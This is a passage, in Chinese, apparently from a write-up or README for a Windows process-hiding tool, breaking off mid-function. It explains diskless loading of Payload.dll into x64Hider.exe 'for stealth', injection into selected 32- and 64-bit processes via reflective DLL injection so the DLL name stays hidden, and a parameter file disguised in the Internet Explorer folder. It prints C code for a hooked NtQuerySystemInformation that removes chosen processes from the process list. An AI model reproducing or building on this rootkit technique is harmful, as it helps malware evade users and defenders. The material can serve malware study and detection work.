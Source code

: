 #### (4)将Payload.dll写入x64Hider.exe的进程空间

这个过程不向硬盘写入文件，增加隐蔽性

对应代码`WriteDLLsToProcess(pi)`

x64Hider.exe的功能如下：

1. 监控64位的进程列表
2. 向符合条件的64位进程注入64位的Payload.dll

#### (5)监控32位的进程列表

对应代码`LaunchDaemon(InjectAll);`

#### (6)向符合条件的32位进程注入32位的Payload.dll

对应代码`reactToProcess((DWORD) pCurrent->ProcessId, pCurrent->ImageName.Buffer);`

Payload.dll分别对应工程x64Payload和x86Payload

这是基于ReflectiveDLLInjection实现的dll反射

优点是注入成功后在进程空间不存在dll的名称

流程如下：

#### 1.创建互斥量

对应代码`hMutex = CreateMutex(0, TRUE, NULL);`

#### 2.读取参数

如果参数为空，从固定文件`"C:\Program Files\Internet Explorer\mdsint.isf"`读取参数

#### 3.Hook API NtQuerySystemInformation()

隐藏进程的代码：

```
NTSTATUS WINAPI HookedNtQuerySystemInformation(
	__in       SYSTEM_INFORMATION_CLASS SystemInformationClass,
	__inout    PVOID                    SystemInformation,
	__in       ULONG                    SystemInformationLength,
	__out_opt  PULONG                   ReturnLength
)
{
	NTSTATUS status = RealNTQueryFunc(SystemInformationClass,
		SystemInformation,
		SystemInformationLength,
		ReturnLength);

	if (SystemProcessInformation == SystemInformationClass && NT_SUCCESS(status))
	{
		//
		// Loop through the list of processes
		//

		PSYSTEM_PROCESS_INFO pCurrent = NULL;
		PSYSTEM_PROCESS_INFO pNext = (PSYSTEM_PROCESS_INFO)SystemInformation;

		do
		{
			pCurrent = pNext;
			pNext = (PSYSTEM_PROCESS_INFO)((PUCHAR)pCurrent + pCurrent->NextEntryOffset);

			if (isHiddenProcess((int)pNext->ProcessId,pNext->ImageName.Buffer))
			{
				if (0 == pNext->NextEntryOffset)
				{
```